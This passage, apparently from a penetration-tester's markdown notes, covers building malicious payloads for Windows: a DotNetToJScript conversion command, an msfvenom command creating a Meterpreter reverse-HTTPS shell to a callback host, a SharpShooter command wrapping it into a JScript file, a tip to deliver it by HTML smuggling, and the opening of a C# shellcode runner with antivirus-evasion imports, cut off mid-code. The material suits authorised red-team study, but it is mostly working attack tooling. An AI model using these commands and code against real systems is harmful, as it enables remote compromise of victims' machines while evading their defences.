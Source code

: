 ```csharp
        Process.Start(path);
    }
}
```
{% endcode %}

Compile to Jscript with *DotNetToJScript.exe*:

```
Cmd > .\DotNetToJScript.exe .\ExampleAssembly.dll --lang=Jscript --ver=v4 -o demo.js
```


#### SharpShooter

* [https://github.com/mdsecactivebreach/SharpShooter](https://github.com/mdsecactivebreach/SharpShooter)

```
$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 -f raw -o met.bin
$ python SharpShooter.py --dotnetver 4 --stageless --rawscfile met.bin --payload js --output evil
```

{% hint style="info" %}
This tool can efficiently be used with [HTML Smuggling](pentest/se/phishing/html-smuggling.md) technique.
{% endhint %}



### C\# DLL with PowerShell Cradle (in Memory)

* [https://www.purpl3f0xsecur1ty.tech/2021/03/30/av_evasion.html](https://www.purpl3f0xsecur1ty.tech/2021/03/30/av_evasion.html)
* [https://github.com/smokeme/payloadGenerator](https://github.com/smokeme/payloadGenerator)

{% code title="ShellcodeRunner.cs" %}
```csharp
using System;
using System.Runtime.InteropServices;

namespace ShellcodeRunner
{
    public class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        [DllImport("kernel32.dll")]
        static extern void Sleep(uint dwMilliseconds);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

        [DllImport("kernel32.dll")]
        static extern IntPtr GetCurrentProcess();

        public static void Run()
        {
```